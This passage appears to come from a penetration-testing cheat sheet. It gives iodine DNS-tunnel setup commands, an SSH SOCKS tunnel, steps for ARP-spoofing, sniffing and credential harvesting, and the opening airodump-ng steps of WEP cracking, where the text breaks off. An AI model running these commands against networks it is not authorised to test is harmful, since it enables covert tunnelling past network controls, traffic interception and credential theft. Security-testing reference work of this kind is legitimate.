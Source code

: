 
1. Check the domain names are resolved:

```
nslookup example.com
```

2. Create 2 DNS records (in [Digital ocean](https://www.digitalocean.com/), [Afraid.org](http://freedns.afraid.org/)...):

- One "A record":  dns.$DOMAIN pointing to the $SERVER_IP (Example: dns.domain.com 139.59.172.117)

- One "NS record": hack.$DOMAIN pointing to dns.$DOMAIN (Example: hack.domain.com dns.domain.com)


3. Execution in the server

```
iodined -f -c -P $PASS -n $SERVER_IP 10.0.0.1 hack.$DOMAIN
```

4. Check if it works correctly in [here](https://code.kryo.se/iodine/check-it/)


5. Execution in the client

```
iodine -f -P $PASS $DNS_SERVER_IP hack.$DOMAIN
```

6. Create the tunnel

```
ssh -D 8080 $USER@10.0.0.1
```

<br>

## <a name="22"></a>2.2. Man in the Middle attack

Once you are in the network, you can test if it is vulnerable to Man in the Middle attacks.

1. ARP Spoofing attack using [Ettercap](https://www.ettercap-project.org/)

2. Sniff the traffic using Wireshark or TCPdump

3. Analyze the traffic using [PCredz](https://github.com/lgandx/PCredz) (Linux) or [Network Miner](https://www.netresec.com/?page=networkminer) (Windows)

-------------------------

<br>

# <a name="3"></a>3. WEP cracking

1. Start capture
```bash
airodump-ng -c $AP_CHANNEL --bssid $AP_MAC -w $PCAP_FILE $IFACE
```


2. Accelerate the IV capture using *Fake authentication* + *Arp Request Replay Attack* + *Deauthenticate user*. Stop Airodump at ~100.000 different IVs
